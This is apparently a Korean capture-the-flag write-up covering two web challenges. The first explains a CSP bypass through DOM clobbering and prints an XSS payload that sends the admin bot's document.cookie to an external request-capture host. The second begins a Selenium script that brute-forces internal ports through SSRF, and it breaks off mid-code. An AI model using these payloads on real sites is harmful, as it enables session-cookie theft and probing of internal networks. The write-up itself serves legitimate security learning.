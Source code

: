 xss 포인트를 찾아보면 post.content를 통해서 xss가 가능한데 csp가 걸려있어 script 태그를 사용할 수 없습니다. 따라서 문제에서 xss 포인트를 찾아본 결과 /admin/test에는 csp가 안 걸려 있습니다.

```jsx
<script src="../js/purify.min.js"></script>
<script>
	const post_title = document.querySelector('.post_title'),
	  post_content = document.querySelector('.post_content'),
	  error_div = document.querySelector('.error_div')
	const urlSearch = new URLSearchParams(location.search),
	  title = urlSearch.get('title')
	const content = urlSearch.get('content')
	if (!title && !content) {
	  post_content.innerHTML = 'Usage: ?title=a&content=b'
	} else {
	  try {
	    post_title.innerHTML = DOMPurify.sanitize(title)
	    post_content.innerHTML = DOMPurify.sanitize(content)
	  } catch {
	    post_title.innerHTML = title
	    post_content.innerHTML = content
	  }
	}
</script>
```

다른 url에서 location.href = /admin/test를 실행하면 `src="../js/purify.min.js"` 를 통해서 DOMPurify가 load되지 않아 xss가 발생합니다.

따라서 post.content에서 dom clobbering을 통해 window.conf.deleteUrl 값을 control 하면 admin bot에 xss를 발생 시킬 수 있습니다.

문제 코드에 a tag에 대한 필터링이 조금 걸려있어 아래의 payload를 통해서 flag를 받아왔습니다.

```html
<a/**/id="conf" name="deleteUrl" href="/admin/test/?title=boom&content=<img src=x onerror=javascript:location.href='https://mvpuaip.request.dreamhack.games/?flag='%2Bdocument.cookie>"></a>
<a/**/id="conf"></a>
```

## hide and seek

internal server의 port를 몰라 brute force를 통해 port를 확인하는 코드를 작성했습니다.

```python
ssrf_url = f"{internal_ip}:{port}"
print(f"Trying SSRF to {ssrf_url}...")

options = Options()
options.add_argument("--no-sandbox")
options.add_argument("--disable-dev-shm-usage")

try:
    driver = webdriver.Chrome(options=options)
    driver.get(target_url)
    time.sleep(0.1)

    # 버튼 클릭 (Find me)
    find_button = driver.find_element(By.XPATH, '//button[contains(text(), "Find me")]')
    find_button.click()
    time.sleep(0.1)

    # URL 입력
    input_field = driver.find_element(By.NAME, "url")
    input_field.clear()
    input_field.send_keys(ssrf_url)

```